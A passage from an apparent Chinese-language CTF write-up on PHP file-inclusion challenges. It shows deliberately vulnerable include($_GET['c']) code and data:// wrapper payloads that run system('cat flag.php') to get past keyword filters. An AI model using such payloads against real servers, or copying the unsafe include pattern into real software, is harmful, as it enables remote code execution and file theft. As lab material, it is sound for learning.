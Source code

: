 ```php
}else{    highlight_file(__FILE__);  
}
```
过滤了数字，那我们换一个就行了
```
?c=include%0a$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```

# web37

```php
<?php  
 
  
//flag in flag.php  
error_reporting(0);  
if(isset($_GET['c'])){    $c = $_GET['c'];  
    if(!preg_match("/flag/i", $c)){  
        include($c);  
        echo $flag;  
      
    }  
          
}else{    highlight_file(__FILE__);  
}
```

感觉这就是正常的文件包含了
```
c=data://text/plain,<?php system("cat fl*");?>
```

![Pasted image 20240912152557.png](/img/user/picture/Pasted%20image%2020240912152557.png)


# web38
```php
<?php   
  
//flag in flag.php  
error_reporting(0);  
if(isset($_GET['c'])){    $c = $_GET['c'];  
    if(!preg_match("/flag|php|file/i", $c)){  
        include($c);  
        echo $flag;  
      
    }  
          
}else{    highlight_file(__FILE__);  
}
```
